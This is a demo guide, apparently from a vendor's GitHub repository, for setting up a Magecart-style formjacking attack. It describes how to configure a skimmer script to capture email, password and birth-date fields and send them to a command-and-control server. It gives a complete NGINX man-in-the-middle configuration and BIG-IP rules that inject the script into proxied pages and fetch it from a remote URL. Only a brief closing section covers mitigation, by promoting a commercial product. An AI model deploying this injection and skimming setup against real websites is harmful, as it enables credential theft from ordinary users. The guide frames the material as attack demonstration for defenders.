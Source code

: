 Formjacking Attack
##############################################################

.. image:: ./_pictures/UFO_mamy.png
   :align: center
   :width: 800
   :alt: All layers

.. contents:: Contents
    :local:

Introduction
*****************************************

This blog provides a formjacking code in order to understand how it works.

F5 customers are protected from magecart style attack by `F5 Client-Side Defense <https://www.f5.com/cloud/products/client-side-defense>`_:

    - **Analyse** the behavior of all Javascripts executed on your website
    - **Alert** your Cyber-SOC team if a javascript behaves like a malware and take action immediately (allow/block)
    - **Block** malicious Javascript execution

Thanks to `unit42 <https://unit42.paloaltonetworks.com/>`_ that did a great blog `here <https://unit42.paloaltonetworks.com/anatomy-of-formjacking-attacks/>`_ on this topic.

Configuration guide
*****************************************
- Open the web page with targeted form
- Inspect ``input`` elements to grab user data. Each element can be identified by an ``id``, a ``name``, a ``type``, etc...

.. code-block:: html

    <input ... id="login-credentials-form-password" name="password-uuid" type="password" ...>

- Open the file `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_
- Update the first 2 or 3 lines describing ``input`` elements to grab user data. See `examples </example>`_

.. code-block:: javascript

    window["data_leak_label_email"] = ["input[id*='login-credentials-form-email']", "input[name*='email']", "input[type*='email']"]
    window["data_leak_label_password"] = ["input[id*='login-credentials-form-password']", "input[name*='password']"]
    window["data_leak_label_birth_date"] = ["input[id*='login-credentials-form-birthdate']", "input[name*='birthDate']"]

- Go back to the web page, inspect ``button`` elements when the user submit the form

.. code-block:: html

    <button ... type="submit" id="login-button">

- In `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_, the
- The fourth line describes ``button`` element to watch in order to send data to remote C&C server.
.. code-block:: javascript

    window["data_leak_label_submit_button"] = ["button[id*='login-button']"]

- If the form contains more or less input fields, update ``function listener_fetch_data_leak()`` in order to have exactly all required ``input`` elements defined previously

.. code-block:: javascript

    data_leak = {
        "email": get_element_value(window["data_leak_label_email"]),
        "password": get_element_value(window["data_leak_label_password"]),
        "birth_date": get_element_value(window["data_leak_label_birth_date"]),
        "uagent": navigator.userAgent
    }

Deployment guide
*****************************************

C&C server
=========================================
- Run C&C server as described `here <https://github.com/nergalex/c2-server>`_

Man In the Middle
=========================================
- Run a Reverse-Proxy that acts as a Man-In-The-Middle: forward all traffic to ORIGIN servers
- If DNS domain is spoofed, rewrite SNI and headers (HOST, ORIGIN and eventually others required by the App)
- Inject malware JS `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ in all or specific pages

**NGINX configuration for JS insertion and redirection:**

.. code-block:: nginx

    user  nginx;
    worker_processes  auto;
    error_log  /var/log/nginx/error.log info;
    pid        /var/run/nginx.pid;

    events {
        worker_connections 4096;
    }

    http {
        log_format main '$remote_addr - $remote_user [$time_local] "$request" $status '
                            '$body_bytes_sent "$http_referer" "$http_user_agent" "$http_x_forwarded_for" '
                            '$request_time "$upstream_connect_time" "$upstream_response_time" ';

        access_log /var/log/nginx/access.log main;

        client_max_body_size 1000M;
        server {
            listen       80  default_server;
            resolver 100.127.192.10; # For DNS lookup of $host;
            location = / {
                ### Insert malicious JS link in main page
                gzip on;
                proxy_set_header Accept-Encoding "";
                sub_filter "<head>" "<head><script async defer src='https://$host/demo/skimmer.js'></script> ";
                proxy_set_header Host $host;
                proxy_pass http://$host;
            }
            location = /demo/skimmer.js {
                # Proxy GET of malicious JS to remote repo
                proxy_pass https://raw.githubusercontent.com/nergalex/f5-magecart/master/example/skimmer_juiceshop.js;
                proxy_hide_header Content-Type;
                add_header Content-Type "application/javascript";
            }
            location / {
                # Other traffic forwarded to origin server
                proxy_set_header Host $host;
                proxy_pass http://$host;
            }
        }
    }

**BIG-IP UI configuration for JS insertion:**

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste content of `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ surrounded by <script>...</script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

**BIG-IP UI configuration for JS redirection:**

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: <script src="/magecart.js"></script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

    Local Traffic  ››  Policies : Policy csd-magecart (see tmsh config below)

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo
    +-- ltm policy: csd-magecart

.. code-block:: tcl

    ltm policy csd-magecart {
        rules {
            redirect-to-magecart-js {
                actions {
                    0 {
                        http-uri
                        replace
                        path /nergalex/f5-magecart/master/example/skimmer_website12.js
                    }
                    1 {
                        http-host
                        replace
                        value raw.githubusercontent.com
                    }
                    2 {
                        forward
                        select
                        pool raw.githubusercontent.com
                    }
                    3 {
                        http-header
                        response
                        replace
                        name Content-Type
                        value "application/javascript; charset=UTF-8"
                    }
                }
                conditions {
                    0 {
                        http-host
                        host
                        values { demo.com }
                    }
                    1 {
                        http-uri
                        path
                        values { /magecart.js }
                    }
                }
            }
            default {
                actions {
                    0 {
                        forward
                        select
                        pool demo.com
                    }
                }
                conditions {
                    0 {
                        http-host
                        host
                        values { demo.com }
                    }
                }
                ordinal 1
            }
        }
        strategy first-match
    }

- Enable compression on client-side / downstream-side if ORIGIN servers use compression

Mitigation guide
*****************************************
- Connect to F5 Distributed Cloud
- Get your Client Side Defense JS (CSD)
- Inject CSD JS as well in the web page to protect

BIG-IP UI configuration for JS insertion:

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/f5_csd
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste F5 CSD JS link

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber + f5_csd


